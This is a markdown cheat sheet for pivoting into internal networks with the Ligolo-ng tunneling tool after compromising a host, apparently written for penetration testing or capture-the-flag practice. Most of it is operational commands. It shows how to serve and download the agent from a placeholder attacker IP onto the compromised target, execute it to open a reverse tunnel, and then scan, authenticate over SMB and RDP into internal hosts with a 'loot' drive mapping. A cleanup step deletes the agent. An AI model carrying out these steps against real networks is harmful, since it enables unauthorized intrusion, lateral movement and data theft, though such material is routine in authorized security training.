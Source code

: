 # Ligolo-ng — Pivoting Cheat Sheet

Ligolo-ng is a lightweight, modern tunneling tool (like chisel) for pivoting through compromised hosts into internal networks.

---

## Setup

### Download Binaries
On **attacker**:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz

tar -xzf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
tar -xzf ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
```

---

## Usage

### Start Proxy (Attacker)
```bash
./proxy -selfcert
```
- Creates listener on `0.0.0.0:11601`  
- Generates a self-signed cert automatically

### Deploy Agent (Target)
On **attacker** (serve binary):
```bash
python3 -m http.server 8000
```

On **target (compromised host)**:
```bash
wget http://<ATTACKER_IP>:8000/agent
chmod +x agent
./agent -connect <ATTACKER_IP>:11601 --ignore-cert
```

---

## Proxy Console Commands
Inside proxy interactive shell:
```text
session        # list active sessions
session 0      # select target session (e.g., DMZ01)
autoroute      # add route for target subnet (auto-creates tun iface)
ifconfig       # verify tun interface (ligolo0)
start          # activate tunnel
```

Now traffic can be routed through `ligolo0` as if local.

---

## Examples

### Internal Scanning
```bash
nmap -sT -Pn -p445 172.16.119.7
```

### SMB Enumeration via Tunnel
```bash
nxc smb 172.16.119.10 -u user -p 'Password123!'
```

### RDP via Tunnel
```bash
xfreerdp /v:172.16.119.7 /u:user /p:'Password123!' /dynamic-resolution /drive:loot,.
```

---

## Cleanup

On **target**:
```bash
killall agent && rm agent
```

On **attacker** (proxy shell):
```bash
exit
```

---

## Notes
- Use Ligolo-ng when you need **pivot access** after a DMZ foothold.  
- All tools (`nmap`, `netexec`, `smbclient`, `xfreerdp`) will use the tunnel transparently.  
- Preferred over `chisel` — cleaner, more stable, supports multiple sessions and autoroute.

---

## References
- Ligolo-ng: https://github.com/nicocha30/ligolo-ng

